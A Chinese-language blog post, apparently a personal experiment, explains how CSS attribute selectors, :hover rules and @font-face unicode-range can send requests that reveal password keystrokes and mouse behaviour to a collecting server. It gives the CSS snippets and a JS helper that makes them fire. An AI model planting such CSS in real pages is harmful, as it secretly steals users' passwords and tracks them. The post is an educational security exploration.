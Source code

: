 # CSS追踪用户浏览行为的初步探索

这个话题其实很早的时候就有了，挺有意思的，于是我拿来做了一个小的实验，感兴趣的可以在文末的Reference中阅读更多相关的资料。

## 导读

这个问题要先从跨域请求说起。由于浏览器的同源策略控制了不同源之间的交互，所以当两个页面的协议，端口和域名不同的情况下会存在跨域问题，这时候不做特殊处理发送的请求是不会被处理的。一般是通过CORS来进行跨源访问，但是也有一些其他情况(这里需要说明对于跨域我了解的不是很多，准备之后好好研究一下,所以可能会挖一些坑)，比如说`script`中的`src`,`link`中的`href`,在像`img`中支持嵌入`png,jpg,gif,bmp.svg...`,`vedio`等这些标签加载资源的过程就是发送了一个`http`请求，拿`img`举个例子，加载第三方网站的图片`<img src="http://demo.com/1.jpg">`就引入了第三方的图片，但貌似浏览器并没有在`console`中发起跨域的警告和报错，所以类似的情况就可能被利用，达到跨域获取信息的可能。



## CSS追踪用户浏览行为

上面讲的多事标签和js实现的过程，我们知道在推荐系统盛行的当下，获取用户的浏览行为是必不可上的，很多实现都是通过js脚本实现的，这里学着网上的大佬扒一扒css的实现。我主要是尝试了两个功能

* css记录input的按键值
* css鼠标悬停检测

### 记录按键的值

主要原理是下面的CSS代码

```css
input[type="password"][value$="0"] { background-image: url("http://localhost:3000/0"); }
```

通过CSS选择器选择`type`为`password`,`value`的结尾是`0`的输入框，添加背景图片，图片加载自网络，这时就发送了一个请求到我的本地服务器，这里若是要远程使用，换成自己的域名或者ip地址。同样的设计所有ascii码，这样就能够获取到用户的按键输入。

### 鼠标悬停

```css
img:hover{
    background-image: url("http://localhost:3000/我悬停在图片上")
}
```

鼠标悬停也是通过`background-image`的方式发送请求，下面是两次实验的截图

![](https://ws1.sinaimg.cn/large/eb59d62cly1fvcjay7k3ij21bs0f2n6m.jpg)

![](https://ws1.sinaimg.cn/large/eb59d62cly1fvcjglzduvj207s07z0sr.jpg)

还有一种是通过字体发送请求

```
@font-face { font-family: x; src: url("http://localhost:3000/a"), local(Impact); unicode-range: U+61; }
@font-face { font-family: x; src: url("http://localhost:3000/b"), local(Impact); unicode-range: U+62; }
@font-face { font-family: x; src: url("http://localhost:3000/c"), local(Impact); unicode-range: U+63; }
@font-face { font-family: x; src: url("http://localhost:3000/d"), local(Impact); unicode-range: U+64; }
input { font-family: x, 'Comic sans ms'; }
```

也是通过枚举的方式试着`unicode-range`来匹配输入。

## 思考

我做了很多尝试，开始的时候并没有成功，这是因为用户在输入的时候`input`标签并不会把输入的是更新到属性`value`上，这样一来css样式选择的时候就只能匹配原来的设置的默认值导致始终不能够触发请求。后来是使用了一段js脚本强制更新属性值`value`添加了监听事件。

```js
var inps = document.getElementsByTagName("input");
        for(let i =0;i<inps.length;i++){
            inps[i].addEventListener("keyup",(e)=>{
            inps[i].setAttribute('value',inps[i].value);
        })
        }
```

也就是说记录按键是要在特定的情况下，比如一些框架的值的双向绑定，我只是用过vue,经过实验在上面不可行，但是其他的CSS样式入鼠标悬停等都是可以的。

说不安全也不安全，说安全也安全毕竟不是普遍的都会强制更新value值。



另外还有一个问题就是浏览器有缓存，我们加载的多是图片和字体，所以在某种程度上都会缓存在浏览器中，这样的话在输入两个`1`的时候只会发送一个请求`http://localhost:3000/1`,因为之前加载过一次，但是这也已经缩小了暴力破解的字母表。

## Reference

* [Heaker News: A CSS Keylogger](https://news.ycombinator.com/item?id=16422696)
* [第三方CSS并不安全](https://juejin.im/entry/5aa08de05188255581548435)
* [MDN CSS](https://developer.mozilla.org/zh-CN/docs/Web/CSS)
* [Crooked Style Sheets](https://github.com/jbtronics/CrookedStyleSheets/blob/master/docs/README.zh.md)
* [浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)





